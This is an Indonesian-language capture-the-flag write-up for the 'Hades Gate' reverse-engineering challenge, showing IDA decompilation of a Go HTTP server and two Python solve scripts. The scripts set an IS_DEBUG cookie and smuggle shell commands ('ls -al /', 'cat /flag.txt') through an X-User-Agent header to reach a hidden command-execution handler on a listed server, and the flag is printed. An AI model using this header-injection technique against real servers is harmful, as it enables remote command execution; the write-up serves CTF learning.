








# Reverse Engineering

<!-- challenge-index: 82d46ed5286a05f8 -->

| Challenge | Topic |
| --- | --- |
| [Hades Gate (350 pts)](#hades-gate-350-pts) | Go, HTTP Authentication |

<!-- /challenge-index -->

## Hades Gate (350 pts)

<figure><figcaption></figcaption></figure>

### Solution

Diberikan file ELF, decompile dengan IDA. Mari kita lihat fungsi main\_main

<figure><figcaption></figcaption></figure>

Dari fungsi main\_main bisa diketahui bahwa executable tersebut berfungsi sebagai http server dan terdapat handler yang akan dijalankan ketika ada request dilakukan. Selanjutnya cek main\_handler

```c
// main.handler
__int64 __golang main_handler(
        __int64 a1,
        __int64 a2,
        __int64 a3,
        __int64 a4,
        __int64 a5,
        __int64 a6,
        __int64 a7,
        __int64 a8,
        __int64 a9)
{
  __int64 v9; // r14
  void **check1; // rdx
  __int64 v11; // rsi
  __int64 v12; // rbx
  __int64 *Cookies; // rax
  __int64 result; // rax
  int v15; // ebx
  __int64 v16; // rax
  int v17; // ecx
  __int64 v18; // rbx
  int v19; // r8d
  int v20; // r9d
  int v21; // r10d
  int v22; // r11d
  __int64 StringSubmatch; // rax
  int v24; // r8d
  int v25; // r9d
  int v26; // r10d
  int v27; // r11d
  __int64 v28; // rcx
  void *retaddr; // [rsp+0h] [rbp+0h] BYREF
  __int64 v30; // [rsp+8h] [rbp+8h]
  __int64 v31; // [rsp+8h] [rbp+8h]

  while ( (unsigned __int64)&retaddr <= *(_QWORD *)(v9 + 16) )
  {
    v31 = a1;
    runtime_morestack_noctxt(a1, a2, a3, a4, a5, a6, a7, a8, a9);
    a1 = v31;
  }
  if ( qword_936DC8 )
  {
    v30 = a1;
    v12 = qword_936DC0;
    Cookies = (__int64 *)net_http_readCookies(*(_QWORD *)(a1 + 56), qword_936DC0, qword_936DC8, a4, a5, a6, a7, a8, a9);
    if ( v12 )
    {
      v11 = *Cookies;
      a1 = v30;
      check1 = 0LL;
    }
    else
    {
      check1 = off_9272F0;
      a1 = v30;
      v11 = 0LL;
    }
  }
  else
  {
    check1 = off_9272F0;
    v11 = 0LL;
  }
  if ( check1 )                                 // exited
    return 0LL;
  if ( *(_QWORD *)(v11 + 24) != 4LL || **(_DWORD **)(v11 + 16) != 1702195828 )
    return 0LL;
  v15 = qword_936DD0;
  v16 = net_textproto_MIMEHeader_Get(*(_QWORD *)(a1 + 56), qword_936DD0, qword_936DD8, a4, v11, a6, a7, a8, a9);
  v17 = v15;
  v18 = v16;
  StringSubmatch = regexp__ptr_Regexp_FindStringSubmatch(qword_936920, v16, v17, a4, v11, v19, v20, v21, v22);
  if ( v18 != 2 )
    return 0LL;
  result = main_ExecuteShellCommand(
            *(_QWORD *)(StringSubmatch + 16),
            *(_QWORD *)(StringSubmatch + 24),
            *(_QWORD *)(StringSubmatch + 16),
            a4,
            v11,
            v24,
            v25,
            v26,
            v27);
  if ( v28 )
    return 0LL;
  return result;
}
```

ada beberapa fungsi penting yang dipanggil

* net\_http\_readCookies
  * membaca cookie
* net\_textproto\_MIMEHeader\_Get
  * mengambil sesuatu dari header
* regexp\_\_ptr\_Regexp\_FindStringSubmatch
  * match suatu nilai dengan pattern regex

Mari kita debug untuk mengetahui semua nilainya

<figure><figcaption></figcaption></figure>

Kita tahu bahwa pada masing-masing fungsi akan terdapat argument yang merupakan nilai yang akan dicari, misal untuk cookies maka menjadi key untuk cookienya. Maka lihat register yang ada ketika proses melakukan hit terhadap breakpoint.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

proses debug diatas dilakukan secara sequential, setelah mendapat IS\_DEBUG set IS\_DEBUG, komparasi nilai true, lalu lanjut mendapat info X-User-Agent set X-User-Agent lalu lanjut mendapatkan pattern regex maka isi dengan nilai yang match dengan pattern. Nilai yang ada didalam p3r1s4isystem() akan dijalankan pada fungsi main\_ExecuteShellCommand, jadi disini kita bisa menjalankan command yang ada pada server. Berikut solve yang saya buat

```python
import requests

url = "http://157.230.47.217:5001"
# url = "http://192.168.137.252:8080"
cookies = {
"IS_DEBUG" : "true"
}
headers = {
"X-User-Agent" : "p3r1s4isystem(ls -al /)"
}
resp = requests.get(url, headers = headers, cookies = cookies)
print(resp.text)
```

<figure><figcaption></figcaption></figure>

Selanjutnya tinggal baca flag.txt

```python
import requests

url = "http://157.230.47.217:5001"
# url = "http://192.168.137.252:8080"
cookies = {
"IS_DEBUG" : "true"
}
headers = {
"X-User-Agent" : "p3r1s4isystem(cat /flag.txt)"
}
resp = requests.get(url, headers = headers, cookies = cookies)
print(resp.text)
```

<figure><figcaption></figcaption></figure>

Flag: CBC2024{6b790e47e79bf9cf272090ba6a94cb1f}
